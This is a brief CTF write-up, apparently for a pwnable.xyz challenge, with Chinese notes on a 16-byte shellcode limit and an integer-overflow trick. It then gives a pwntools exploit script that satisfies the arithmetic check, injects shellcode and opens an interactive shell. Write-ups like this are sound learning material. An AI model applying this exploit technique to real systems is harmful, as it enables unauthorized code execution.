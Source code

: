 ### 知识点

- shellcode（长度不超过16）

- x+y=z     x*y=0   (x!=0   y!=0)

  x = 0x80000000

  y = z - x

  并不是所有值都有解



### 脚本

```python
from pwn import *
from ctypes import *

context(os='linux', arch='amd64')
context.terminal = ['tmux', 'splitw', '-h']

# add    bh, bh -> 0x00 0xff
# for i in range(0, 256):
#     a = disasm(b'\x00' + p8(i) + p8(0x90))
#     print(a)
#     print('-------------------------------')

while True:
    # p = remote('svc.pwnable.xyz', 30028)
    p = process('./challenge')

    p.recvuntil(b'== ')
    z = int(p.recvuntil(b'> ')[:-3], 16)

    a = 0x80000000
    b = z - a

    if c_uint(a * b).value == 0:
        break
    p.close()

payload = str(a) + ' ' + str(b)
print(z, payload)
p.sendline(str.encode(payload))

p.recvuntil(b'Input:')
shellcode = asm('add bh, bh;' + 'pop rax;sub rax,718;call rax')
p.send(shellcode)

p.interactive()

```

